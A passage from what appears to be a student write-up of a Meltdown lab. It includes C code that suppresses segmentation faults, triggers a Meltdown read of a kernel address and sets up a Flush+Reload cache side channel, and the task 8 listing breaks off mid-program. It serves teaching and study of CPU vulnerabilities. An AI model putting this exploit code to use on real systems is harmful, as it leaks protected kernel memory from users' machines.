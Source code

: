 ```c=
// signal handler
static sigjmp_buf jbuf;
static void catch_segv(int i)
{
  siglongjmp(jbuf, 1);
}

int main()
{
  // Register a signal handler
  signal(SIGSEGV, catch_segv);

  // FLUSH the probing array
  flushSideChannel();

  if (sigsetjmp(jbuf, 1) == 0) {
      //meltdown(0xf9d34000);     
      meltdown_asm(0xf9d34000);           
  }
  else {
      printf("Memory access violation!\n");
  }

  // RELOAD the probing array
  reloadSideChannel();                     
  return 0;
}
```
#### task7 Improve the Attack
![](https://i.imgur.com/V5GpivS.png)
(Improve the Attack by Getting the Secret Data Cached)
![](https://i.imgur.com/baCzLXJ.png)
(Using Assembly Code to Trigger M eltdown)
#### task8 Make the Attack More Practical
```c=
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <signal.h>
#include <setjmp.h>
#include <fcntl.h>
#include <emmintrin.h>
#include <x86intrin.h>

/*********************** Flush + Reload ************************/
uint8_t array[256*4096];
/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;

  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 + DELTA]);
}
```